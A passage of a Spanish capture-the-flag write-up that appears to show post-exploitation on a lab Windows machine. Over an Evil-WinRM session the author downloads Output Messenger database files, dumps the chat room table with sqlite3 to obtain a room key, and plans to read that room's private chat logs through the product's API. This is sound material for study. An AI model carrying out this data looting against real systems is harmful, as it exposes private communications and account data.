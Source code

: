 ```bash
Info: Download successful!

*Evil-WinRM* PS C:\Users\winrm_svc\AppData\Roaming\Output Messenger\JAAA> download OT.db3
                                        
Info: Downloading C:\Users\winrm_svc\AppData\Roaming\Output Messenger\JAAA\OT.db3 to OT.db3
                                        
Info: Download successful!

```

Al revisar el archivo `OM.db3` con la herramienta de `sqlite3`, verificamos que hemos logrado obtener la `roomkey` del chat `Chiefs_Marketing_chat.`

```bash
❯ ls -l OM.db3
.rwxrwxr-x kali kali 31 KB Fri Jan 17 23:58:16 2025  OM.db3

❯ sqlite3 OM.db3
SQLite version 3.46.1 2024-08-13 09:16:08
Enter ".help" for usage hints.
sqlite> .tables
om_chatroom               om_drive_files            om_preset_message       
om_chatroom_user          om_escape_message         om_reminder             
om_custom_group_new       om_hide_usergroup         om_settings             
om_custom_group_user_new  om_notes                  om_user_master          
om_custom_status          om_notes_user             om_user_photo           
sqlite> select * from om_chatroom;
1|General_chat|20240219160702@conference.com|General_chat||20240219160702@conference.com|1|2024-02-20 01:07:02.909|0|0||0|0|1||
2|Chiefs_Marketing_chat|20240220014618@conference.com|Chiefs_Marketing_chat||20240220014618@conference.com|1|2024-02-20 10:46:18.858|0|0||0|0|1||
sqlite>
```

Ya disponemos de lo que parece ser la `roomkey` del **chat room** que queremos ver sus logs.

Por lo tanto, siguiendo el `API Helper` de la documentación del `Output Messenger` que nos encontramos, procederemos a ver los logs de las fechas recientes. En la conversación con `O.martinez`, la conversación que mantienen es el 20 de Febrero de 2024.

En este caso, buscaremos los logs entre las fechas del 19 al 20 de febrero utilizando la `roomkey`. Verificamos que hemos logrado al parecer leer los logs de este chat.

<figure><img src="../../.gitbook/assets/imagen (21) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
